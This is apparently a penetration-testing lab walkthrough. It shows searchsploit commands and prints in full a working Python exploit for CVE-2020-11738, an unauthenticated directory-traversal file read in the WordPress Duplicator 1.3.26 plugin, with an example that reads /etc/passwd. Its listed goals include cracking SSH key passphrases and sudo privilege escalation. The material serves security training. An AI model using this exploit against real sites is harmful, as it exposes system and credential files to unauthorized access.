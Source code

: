- Use vulnerabilities in WordPress Plugins
- Crack the passphrase of an SSH private key
- Elevate privileges using sudo commands
- Leverage developer artifacts to obtain sensitive information

### Initial Foothold
Use #searchsploit to examine the python exploit 
```
kali@kali:~/beyond$ searchsploit -x 50420
```

 Information about the Directory Traversal vulnerability in Duplicator 1.3.26
 ```hlt:15,21
# Exploit Title: Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read
# Date: October 16, 2021
# Exploit Author: nam3lum
# Vendor Homepage: https://wordpress.org/plugins/duplicator/
# Software Link: https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip]
# Version: 1.3.26
# Tested on: Ubuntu 16.04
# CVE : CVE-2020-11738

import requests as re
import sys

if len(sys.argv) != 3:
        print("Exploit made by nam3lum.")
        print("Usage: CVE-2020-11738.py http://192.168.168.167 /etc/passwd")
        exit()

arg = sys.argv[1]
file = sys.argv[2]

URL = arg + "/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../.." + file

output = re.get(url = URL)
print(output.text)
```

Copy this python script to `websrv1` directory 
```hlt:1,3,9
kali@kali:~/beyond$ cd beyond/websrv1

kali@kali:~/beyond/websrv1$ searchsploit -m 50420
  Exploit: Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read
      URL: https://www.exploit-db.com/exploits/50420
     Path: /usr/share/exploitdb/exploits/php/webapps/50420.py
File Type: ASCII text

Copied to: /home/kali/beyond/websrv1/50420.py
```